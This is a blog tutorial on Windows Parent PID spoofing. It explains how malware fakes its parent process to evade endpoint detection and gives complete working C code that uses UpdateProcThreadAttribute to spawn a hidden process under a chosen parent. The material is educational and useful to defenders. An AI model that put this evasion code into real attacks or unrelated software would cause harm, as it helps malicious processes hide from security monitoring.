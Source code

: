 ```yaml
---
description: Parent PID Spoofing
---
```


# PPID Spoofing

## Introduction

PPID Spoofing is a technique which is used by malwares to spoof their parent process, as if to show that they were spawned by a legitimate process. For eg. if a powershell is being spawned by office, this becomes really suspicious in contrast to powershell being spawned from explorer (this is same as you opening powershell from its location).  Vendors monitor the parent-child relationships between the processes to identify potential suspicious behavior. Below I have used process hacker to show how it is displayed.



<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption><p>Powershell being spawned interactively</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p>powershell from a macro</p></figcaption></figure>

## Theory

So how does this work? Well you must be aware we can create a process using the CreateProcess api. While creating a process, it is possible to specify extended attributes by using the [**STARTUPINFOEX**](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-startupinfoexa) structure. According to [MSDN](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

> To set extended attributes, use a [STARTUPINFOEX](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-startupinfoexa) structure and specify **EXTENDED\_STARTUPINFO\_PRESENT** in the _dwCreationFlags_ parameter.

We can initialize the `PROC_THREAD_ATTRIBUTE_LIST` using the [InitializeProcThreadAttributeList](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) & then use [UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) api to update the value of `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` to the handle to the parent process.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>From winbase.h</p></figcaption></figure>

We can see different attributes defined here. For now, we just want the first one.&#x20;

## PPID Spoofing

Alright, First we have to get handle to the Parent Process. Since we would most probably be running as low privileged user, we need to look for a process accordingly. Since I just want to explain, I'll use flameshot (ss tool) instead as a parent process. First I need to get handle to it.

```c
hParent = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwParentPID);
```

&#x20;Then I need to initialize the process attribute list and update it accordingly. But before that, [MSDN](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) asks us to call this function with the count of attributes we want to set and then.

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```c
InitializeProcThreadAttributeList(NULL, 1, NULL, &sz_tAttribList);
pThreadAttribList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sz_tAttribList);
InitializeProcThreadAttributeList(pThreadAttribList, 1, NULL, &sz_tAttribList)
UpdateProcThreadAttribute(pThreadAttribList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParent, sizeof(HANDLE), NULL, NULL)
si_ex.lpAttributeList = pThreadAttribList;
CreateProcessA(NULL, lpProcName, NULL, NULL, FALSE, (EXTENDED_STARTUPINFO_PRESENT | CREATE_NO_WINDOW), NULL, "C:\\Windows\\System32", &si_ex.StartupInfo, &pi)
```

After initializing it once, we get the size of attribute list, then we allocate heap memory for it and initialize it once again, after which we can update it and create the process. It is important to specify the `EXTENDED_STARTUPINFO_PRESENT` when we want to set the attributes.

Here's the full code

```c
BOOL ppidSpoofer(IN HANDLE hParent, IN LPCSTR lpProcName) {
    SIZE_T                             sz_tAttribList = NULL;
    PPROC_THREAD_ATTRIBUTE_LIST        pThreadAttribList = NULL;
    STARTUPINFOEXA                     si_ex = { 0 };
    PROCESS_INFORMATION                pi = { 0 };

    SecureZeroMemory(&si_ex, sizeof(STARTUPINFOEXA));
    SecureZeroMemory(&pi, sizeof(pi));

    InitializeProcThreadAttributeList(NULL, 1, NULL, &sz_tAttribList);
    DWORD err_122 = GetLastError();
    if (err_122 != ERROR_INSUFFICIENT_BUFFER) {
        warn("Initializing failed   @--=%d", err_122);
    }
    info("ThreadAttrib is of %d size , GOT ERROR  @--=%d", (int)sz_tAttribList, GetLastError());
    
    pThreadAttribList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sz_tAttribList);
    if (pThreadAttribList == NULL) {
        warn("Error Allocating Heap  @--=0x%d", GetLastError());
        return FALSE;
    }

    if (!InitializeProcThreadAttributeList(pThreadAttribList, 1, NULL, &sz_tAttribList)) {
        warn("Initializing Attributes failed   @--=0x%d", GetLastError());
        return FALSE;
    }

    if (!UpdateProcThreadAttribute(pThreadAttribList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParent, sizeof(HANDLE), NULL, NULL)) {
        warn("Updating Attributes failed   @--=0x%d", GetLastError());
        return FALSE;
    }

    si_ex.lpAttributeList = pThreadAttribList;

    if (!CreateProcessA(NULL, lpProcName, NULL, NULL, FALSE, (EXTENDED_STARTUPINFO_PRESENT | CREATE_NO_WINDOW), NULL, "C:\\Windows\\System32", &si_ex.StartupInfo, &pi)) {
        // I can change the current directory of the spawned process just by specifying where I want it to be ---------------- ^
        warn("Process Creation failed   @--=0x%d", GetLastError());
        return FALSE;
    }
    
    info("Created Process with id %d", pi.dwProcessId);
    CloseHandle(hParent);

    return TRUE;
}
```

After running this , we can see the process from process hacker.

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

And that's it for this time. It was a fairly small topic and a simple one. I do aim to talk about faking the process arguments next time. If you liked it, do let me know and drop a follow on [twitter](https://x.com/ZzN1NJ4).

## References

* [http://www.rohitab.com/discuss/topic/38601-proc-thread-attribute-list-structure-documentation/](http://www.rohitab.com/discuss/topic/38601-proc-thread-attribute-list-structure-documentation/)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist)







